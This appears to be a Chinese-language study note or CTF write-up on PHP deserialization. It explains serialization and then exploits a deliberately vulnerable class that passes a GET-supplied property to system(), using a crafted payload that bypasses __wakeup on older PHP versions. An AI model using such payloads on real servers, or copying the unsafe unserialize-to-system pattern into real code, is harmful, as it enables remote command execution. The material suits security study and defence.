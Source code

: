 ```yaml
---
title: PHP反序列化
tags:
    - web
    - php
    - serialize
    - review
createTime: 2025/02/05 11:18:54
permalink: /security/unserialize/
---
```


## 概念

要了解`反序列化（unserialize）`，就应该先了解`序列化（serialize）`

> 序列化是将数据结构或对象转换成一种特定格式的字节序列的过程。

乍一看还是有点抽象，我们可以通过下面这个示例来大致理解一下

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 
class Student {
    public $name;
    public $age;
    public $scores;

    public function __construct($name, $age, $scores) {
        $this->name = $name;
        $this->age = $age;
        $this->scores = $scores;
    }

    public function __toString() {
        return "Name: {$this->name}, Age: {$this->age}, Scores: " . implode(', ', $this->scores);
    }
}

// 创建一个 Student 对象
$student = new Student("张三", 20, [85, 90, 78]);

// 序列化对象
$serializedStudent = serialize($student);
echo "序列化后的字符串:";
echo $serializedStudent;

echo '<br>';

// 反序列化对象
$unserializedStudent = unserialize($serializedStudent);
echo "反序列化后的对象:";
echo $unserializedStudent;
?>
```


> [!tip]
> `__toString() 的作用`
>
>
> __toString( ) 是 PHP 中的一个魔术方法（Magic Method），它是 PHP 面向对象编程中的一个重要特性。__toString( ) 的作用是定义一个类在被转换为字符串时的行为。当尝试将一个对象直接用于字符串上下文（例如回显、字符串拼接等）时，PHP 会自动调用该对象的 __toString( ) 方法。（例如上述代码中的`serialize($student)`）


得到的输出结果如下

![](img/4.png)

```serialize
O:7:"Student":3:{s:4:"name";s:6:"张三";s:3:"age";i:20;s:6:"scores";a:3:{i:0;i:85;i:1;i:90;i:2;i:78;}}
```

```unserialize
Name: 张三, Age: 20, Scores: 85, 90, 78
```


分析序列化得到的字符串，它的组成大致可以这样理解：

> **1. 对象标识**  O:长度:"类名":属性数:{...}

`O`代表`Student`是一个Obejct(对象)，字符串长度为`7`，有`3`个属性：name,age,scores

> **2. 成员属性**  键类型:键长度:"键名";值类型:值...

`s`即string，`i`即integer

## 实战

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

class begin{
    public $unf01d="beginning";
    public function cmd($a){
        system($a);
    }
    public function __wakeup(){
        $this->unf01d="end";
    }
    public function __destruct(){
        $this->cmd($this->unf01d);
    }
}
$cmd=$_GET['cmd'];
unserialize($cmd);
?>
```

> [!tip]
> system( )与exec( )类似，也可以调用系统指令
>
> `__wakeup()`是一个魔术方法，在反序列化的时候会优先调用它


而我们要起到我们的目的，就必须绕开__wakeup( )

> [!warning]
> 此绕过方法只适用于部分版本的PHP
>
> PHP5 < 5.6.25 
>
> PHP7 < 7.0.10

如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过

::: code-tabs

@tab crack.php

```php
<?php
class begin {
    public $unf01d = ""; //目标指令
}

$payload = serialize(new begin());
echo $payload;
?>

```
:::

由此构造出payload,将`1`改为`2`

![](img/7.png)

```payload
O:5:"begin":2:{s:6:"unf01d";s:8:"cat flag";}
```

上传就可以得到flag

![](img/6.png)


## 总结

之后还将加深对魔术方法调用顺序的理解，以及学习其他绕过__wakeup()的方法

